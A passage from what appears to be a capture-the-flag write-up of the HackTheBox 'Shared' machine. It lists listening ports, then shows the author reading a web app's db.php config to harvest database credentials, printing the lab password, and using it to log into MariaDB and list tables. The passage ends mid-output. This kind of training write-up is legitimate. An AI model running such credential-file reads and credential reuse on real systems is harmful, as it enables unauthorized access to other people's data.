 ```bash
tcp            LISTEN          0               80                             127.0.0.1:3306                          0.0.0.0:*                              
tcp            LISTEN          0               511                            127.0.0.1:6379                          0.0.0.0:*                              
tcp            LISTEN          0               511                              0.0.0.0:80                            0.0.0.0:*                              
tcp            LISTEN          0               128                                 [::]:22                               [::]:*                              
james_mason@shared:~$ 

```

I found that `port 3306` and that's `mysql`, also `port 6379` and after some googling I found that it's running [Redis](https://redis.io/).

I kept cruising around the file system and I found these credentials that belong to a database:

```bash
james_mason@shared:/var/www/checkout.shared.htb/config$ ls
db.php
james_mason@shared:/var/www/checkout.shared.htb/config$ cat db.php
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>
james_mason@shared:/var/www/checkout.shared.htb/config$ 
```

I used these creds to connect to the MariaDB database:

```bash
james_mason@shared:/var/www/checkout.shared.htb/config$ mysql -h localhost -u checkout -p checkout
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9295
Server version: 10.5.15-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [checkout]> 
```

But there's nothing really new here:

```bash
MariaDB [checkout]> show databases;
+--------------------+
| Database           |
+--------------------+
| checkout           |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [checkout]> show tables;
+--------------------+
| Tables_in_checkout |
+--------------------+
| product            |
| user               |
```